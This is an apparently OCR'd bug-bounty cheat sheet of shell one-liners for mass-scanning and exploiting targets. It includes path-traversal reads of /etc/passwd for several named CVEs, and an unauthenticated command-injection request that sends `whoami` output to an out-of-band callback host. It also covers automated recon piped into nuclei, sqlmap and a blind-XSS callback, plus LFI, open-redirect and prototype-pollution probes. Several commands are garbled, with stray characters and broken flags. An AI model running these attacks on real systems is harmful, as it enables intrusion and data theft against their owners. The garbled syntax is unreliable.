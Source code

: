 # By:h0tak88r

# CVE’s

## #Nuclie

```bash
cat dorks.txt| uncover — silent | httpx — silent | nuclei -t /nuclei-templates/cves
```

## #CVE-2022-1040

```bash
curl --connect-timeout 10 -ks -H "X-Requested-With: XMLHttpRequest" -X POST "https://host/userportal/Controller?mode=8700&operation=1&datagrid=179&json=\{"👽":"TEST"\}"
```

## #CVE-2021-41773 POC

```bash
cat subdomains.txt | while read host; do curl -m 10 -sS --silent --path-as-is --insecure "https://$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host ==> Vulnerable" >lol.txt || echo "$host ==>Not Vulnerable"; done
```

## #CVE-2020-5902

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port separator " " | awk '{print $1":"$2}' | while read host do ;do curl silent-path-as-is--insecure 
"https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp? fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n"; done
```

## #CVE-2020-3452

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table? type=mst&textdomain=/+CSCOE+/portal_inc.lua&default-language&lang=../" | head | grep -q "cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "${RED} NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

## #CVE-2022-0378

```bash
cat file.txt | while read h do;do curl -sk --insecure  "https://$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && \echo "$h \033[0;31mVul\n" || echo "$h \033[0;32mNot\n";done
```

### **[CVE](https://twitter.com/hashtag/CVE?src=hashtag_click)**-2022-44877 Control **Web** Panel Unauth [#RCE](https://twitter.com/hashtag/RCE?src=hashtag_click)

```html
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&password=toor&commit=Login
```

# # Scanning Automation

```bash
**while true; do subfinder -dL domains.txt -all | anew subs.txt | httpx | nuclei -t nuclei-templates/ | notify ; sleep 3600; done**
```

# #SQLI

```bash
[+] findomain -t testphp.vulnweb.com -q |httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

# #**XSS**

```bash
[+] waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u tee FILE.txt && catFILE.txt❘ dalfox -b YOURS.xss.ht pipe > OUT.txt
[+] cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:\\") message(?: '|\")"
[+] gospider -S URLS.txt -c 10 d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other- source | grep -e "code-200" | awk '{print $5}' grep "=" qsreplace -a | dalfox pipe | tee OUT.txt
```

# **#LFI**

```bash
[+] gau HOST -s "" | gf lfi | qsreplace "/etc/passwd" | xargs -1% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"
```

# #Open Redirects

```bash
[+] export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST"| xargs -I %
-P 25 sh -c 'curl -Is "" 2>&1 | grep -q "Location: $LHOST" && echo "VULN!٪"'
[+] cat URLS.txt❘ gf url | tee url-redirect.txt && cat url-redirect.txt | parallel - 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

# #CORS Misconfigurations

```jsx
subfinder -d hackerone.com -nW -silent | httprobe -c 70 -p 80,443,8080,8081,8089 | tee http_https.txt
cat http_https.txt | CorsMe -t 70
```

# #Prototype Pollution

```bash
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?_proto_[testparam]=exploit\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

# #Find JavaScript Files

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css.png|.jpeg|.jpg|.svg|.gif].wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9_]+" | sed -e 's, 'var', '"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'): echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

# #Extract Endpoints from JavaScript

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]&\""| sed -e 's/^"//' -e 's/"$//' | sort -u
```

# #Get CIDR & Org Information from Target Lists

```bash
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " | paste -; d
one | uniq); done
```
